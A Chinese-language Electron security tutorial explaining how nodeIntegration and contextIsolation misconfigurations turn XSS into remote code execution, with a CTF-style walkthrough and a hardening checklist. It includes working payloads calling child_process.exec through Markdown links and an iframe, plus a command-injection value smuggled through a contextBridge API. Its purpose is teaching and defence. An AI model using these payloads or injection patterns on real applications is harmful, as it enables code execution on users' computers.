

# Electron桌面跨端应用安全：架构隐患、nodeIntegration配置缺陷与XSS转RCE实战

---

## 0. 基础前置知识扫盲：网页技术如何统治桌面端？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


在传统的黑客攻防认知中，桌面客户端程序（`.exe`、`.dmg`、`.AppImage`）通常属于**二进制逆向与二进制漏洞挖掘（PWN）**的领地。
然而，在当今的软件世界中，你每天打开的绝大多数知名桌面软件：
- 代码编辑器 **VS Code**；
- 办公协作软件 **Slack**、**Discord**、**钉钉**、**飞书**；
- 音乐播放器 **网易云音乐**、代码托管客户端 **GitHub Desktop**；

**它们本质上全都是用 Web 前端技术（HTML、CSS、JavaScript）写出来的！**
支撑这一工业奇迹的底层核心框架，就是 **Electron**。

### 1. 通俗生活类比：把浏览器和操作系统核心“焊死在一起”
- **普通的网页浏览器（Chrome / Edge）**：
  像一个**被防弹玻璃严密隔离的动物园笼子（浏览器沙箱）**。
  你在网页里就算写出了绝世毒代码（XSS），最多也只能在笼子里弹个框（`alert(1)`）或者偷个当前网站的 Cookie，**绝对不可能顺着网线直接在用户的 Windows 电脑里打开计算器（`calc.exe`）或者安装木马**。
- **Electron 桌面应用（致命合体怪兽）**：
  Electron 的架构极其激进：它直接将 **Chromium 浏览器内核** 与 **Node.js 操作系统级运行时** 深度揉合在了一个进程里！
  这就相当于：**不仅把动物园笼子的门打开了，还在笼子里面给猴子（网页 JavaScript）发了一把真枪实弹的机关枪（Node.js 底层系统调用 API）！**
- **黑客的终极狂欢（XSS 秒变 RCE）**：
  在 Electron 应用中，只要网页上出现了一个微小的 **XSS（跨站脚本攻击）漏洞**，黑客不再是简单地弹个窗，而是**直接调用 Node.js 的 `child_process.exec()`，瞬间升级为系统最高权限的远程命令执行（RCE），彻底沦陷整台电脑！**



---

## 1. Electron 双进程架构与源码解包逆向

### 1.1 双进程架构模型（Main vs Renderer）
理解 Electron 安全的关键，在于分清其内部的两大核心进程：
1. **主进程（Main Process，运行在 `main.js`）**：
   - 相当于软件的“后台司令部”；
   - 负责管理应用程序的生命周期、创建原生窗口、读写底层操作系统文件系统；
   - **天然拥有 100% 完整的 Node.js 系统最高权限**。
2. **渲染进程（Renderer Process，运行在各个网页窗口中）**：
   - 相当于软件的“前端展示层”；
   - 负责加载 HTML 页面、渲染 CSS 样式、响应用户鼠标点击；
   - **理论上应该被严格限制在沙箱内**，只负责显示。

---

### 1.2 源码一键还原：解压 `app.asar` 归档包

大多数商业 Electron 软件发布时，会将所有的前端网页与 JS 代码打包成一个名为 **`app.asar`** 的文件（通常存放在安装目录的 `resources/` 文件夹下，例如 `C:\Program Files\AppName\resources\app.asar`）。

> [!NOTE] **ASAR 是什么？**
> ASAR 是一种类似 TAR 的**只读归档格式**。它**不是加密文件**，微软官方专门提供了开源命令行工具，任何人都可以像解压 ZIP 一样一秒钟将其完整解压！

#### 极速解包命令实操：
```bash
# 1. 使用 npm 官方工具提取 asar 文件
npx asar extract app.asar ./source_code

# 2. 进入解包目录
cd source_code
ls -la
```
**解包产出物**：
你将直接获得该桌面软件 **100% 完整、未经编译的全部前端与后端源码**！
包括 `package.json`、主进程 `main.js`、预加载脚本 `preload.js` 以及所有的前端 Vue/React/HTML 业务组件，白盒审计直接开启！

---

## 2. 致命配置缺陷剖析：`webPreferences` 三大命门

在解开的 `main.js` 中，寻找创建窗口的代码 `new BrowserWindow({ ... })`。以下配置参数直接决定了该软件的生死存亡：

### 2.1 命门一：`nodeIntegration: true`（Node.js 集成开启，高危之王）
- **官方定义**：是否允许在渲染进程的网页上下文中直接使用 Node.js 的原生能力。
- **现状**：早期老版本 Electron（低于 v5）默认值为 `true`；新版本虽然默认为 `false`，但大量开发者为了方便在网页里直接调用 `fs` 读写本地文件，**手动将其改成了 `true`**！
- **漏洞后果**：
  只要 `nodeIntegration: true`，页面中的任何 JavaScript 脚本可以直接访问全局 `require` 和 `process` 对象：
  ```html
  <!-- 恶毒的 XSS 攻击载荷：直接调用 Node.js 派生进程 -->
  
  ```
  原本只能弹窗的普通富文本 XSS，瞬间演变成**最高危的本机命令执行**！

---

### 2.2 命门二：`contextIsolation: false`（上下文隔离关闭）
- **官方定义**：是否在“预加载脚本（Preload Script）”与“网页渲染脚本（Website Script）”之间建立坚不可摧的内存上下文隔离屏障。
- **漏洞后果**：
  如果设为 `false`，两者的全局 `window` 对象是完全共享的！
  即使开发者在页面端小心翼翼地关闭了 `nodeIntegration`，但只要 Preload 脚本里使用过 Node.js 模块，攻击者就可以通过 **原型链污染（Prototype Pollution）** 或 **覆盖 `window` 对象的底层属性**，顺藤摸瓜偷走 Preload 里的 Node.js 句柄，最终逃逸出沙箱实现 RCE！

---

### 2.3 命门三：`sandbox: false`（禁用 Chromium 沙箱）
Chromium 内核本身自带强悍的多进程操作系统级安全沙箱。若显式配置 `sandbox: false`，则彻底剥离了这层防线，一旦底层 Chromium 引擎出现历史 CVE 漏洞（如 V8 引擎类型混淆漏洞），可以直接发生系统级逃逸。

---

## 3. XSS 秒变 RCE 完整武器化利用全景

根据目标 Electron 软件的配置组合，攻击者采用不同的链条完成 RCE：

### 场景 1：完全未设防模式（`nodeIntegration: true`）

目标在聊天输入框中支持 Markdown 渲染（如渲染用户发送的消息），且配置了 `nodeIntegration: true`。

#### 构造恶毒 Markdown 消息：
```markdown
[点击领取福利](javascript:require('child_process').exec('powershell%20-c%20calc.exe'))
```
或者利用未过滤的 HTML 标签：
```html
<iframe src="data:text/html,<script>require('child_process').exec('calc.exe')</script>"></iframe>
```
受害者在聊天窗口中看到这条消息，或者仅仅是打开了聊天窗口触发了页面渲染，**Windows 计算器瞬间弹出，反弹 Shell 悄然上线！**

---

### 场景 2：安全桥接被击穿（通过不严谨的 `contextBridge` 逃逸）

现代成熟的 Electron 软件通常配置了 `nodeIntegration: false` 与 `contextIsolation: true`。开发者按照官方推荐，在 `preload.js` 中使用 `contextBridge.exposeInMainWorld` 暴露特定的受控 API。

#### 开发者不严谨的 Preload 脚本：
```javascript
// preload.js 中的危险暴露
const { contextBridge, ipcRenderer } = require('electron');

contextBridge.exposeInMainWorld('myDesktopAPI', {
    // 致命设计：允许前端页面随意向主进程传递文件路径并打开!
    openUserFile: (filePath) => {
        ipcRenderer.send('open-file', filePath);
    }
});
```
#### 主进程接收逻辑（`main.js`）：
```javascript
// main.js
const { exec } = require('child_process');
ipcRenderer.on('open-file', (event, filePath) => {
    // 开发者直接将前端传来的参数拼接入系统命令行中!
    exec(`notepad.exe ${filePath}`);
});
```

#### 攻击利用：
攻击者在前端网页中触发 XSS 后，虽然不能直接 `require`，但他可以调用前端暴露的特权桥梁：
```html
<script>
    // 利用管道符命令注入，直接在参数中夹带任意系统命令!
    window.myDesktopAPI.openUserFile("test.txt | calc.exe");
</script>
```
主进程以操作系统最高权限执行了 `notepad.exe test.txt | calc.exe`，成功突破隔离达成 RCE！

---

## 4. CTF / 实战挖掘演练：某流行办公客户端 Markdown 渲染 RCE

### 赛题背景：
- 目标：某跨平台企业办公通讯软件桌面端（Windows 版本）；
- 软件架构：基于 Electron 12.0 开发；
- 突破口：软件提供“团队公告”功能，支持富文本/Markdown 编辑。

### 进攻实战链条：

#### 步骤 1：解包并审计主进程安全配置
使用 `npx asar extract app.asar ./src` 解包，查看 `src/main/window.js`：
```javascript
const win = new BrowserWindow({
    width: 1200,
    height: 800,
    webPreferences: {
        nodeIntegration: true,     // 确认发现致命配置缺陷!
        contextIsolation: false,   // 上下文未隔离!
        enableRemoteModule: true
    }
});
```

#### 步骤 2：审计前端渲染器过滤缺陷
翻阅前端代码，发现公告渲染使用了老旧版本的 Markdown 解析库，且未对 HTML 标签进行净化：
```javascript
// 直接使用 innerHTML 插入转换结果
document.getElementById('announcement').innerHTML = marked.parse(rawText);
```

#### 步骤 3：构造武器化公告内容
攻击者以普通员工身份在团队公告中发布一条内容：
```html
### 本周全员工作例会通知

```

#### 步骤 4：收获战果
当企业内部的管理员打开电脑端查看公告时，图片加载失败瞬间触发 `onerror` 处理器。
由于 `nodeIntegration: true` 存在，恶毒的 PowerShell 脚本被立即在后台静默执行，攻击者公网 C2 平台瞬间接收到目标内网高权限 Shell 上线回连！
成功通关！

---

## 5. 蓝队企业级纵深防御与 Electron 安全加固规范

Electron 官方安全指南明确定义了必须严格遵循的 **“安全防御铁律（Security Checklist）”**：

1. **绝对禁止开启 Node.js 集成（强制禁用）**：
   ```javascript
   webPreferences: {
       nodeIntegration: false,      // 必须显式设为 false!
       nodeIntegrationInWorker: false
   }
   ```
2. **强制开启上下文隔离（Context Isolation）**：
   ```javascript
   webPreferences: {
       contextIsolation: true       // 必须显式设为 true!
   }
   ```
3. **推行最严苛的 `contextBridge` 白名单机制**：
   - 严禁在 `preload.js` 中将整个 `ipcRenderer`、`remote` 或具有任意文件读写/命令执行能力的函数全量暴露给前端；
   - 必须实施参数强校验，仅暴露只读或受到业务逻辑严格约束的微型抽象接口。
4. **严格配置内容安全策略（CSP）**：
   - 在所有 HTML 页面中配置强 CSP：
     ```html
     <meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self';">
     ```
   - 坚决杜绝 `unsafe-eval` 和 `unsafe-inline`，从源头消灭任何 XSS 脚本执行的土壤。
5. **对外部链接跳转实施严格拦截（`shell.openExternal` 校验）**：
   - 禁止在未验证协议的情况下调用 `shell.openExternal(url)`，严格限制只允许打开 `http://` 和 `https://` 协议，杜绝攻击者利用 `file://` 或特定协议（如 `ms-msdt:`）触发系统级命令注入。
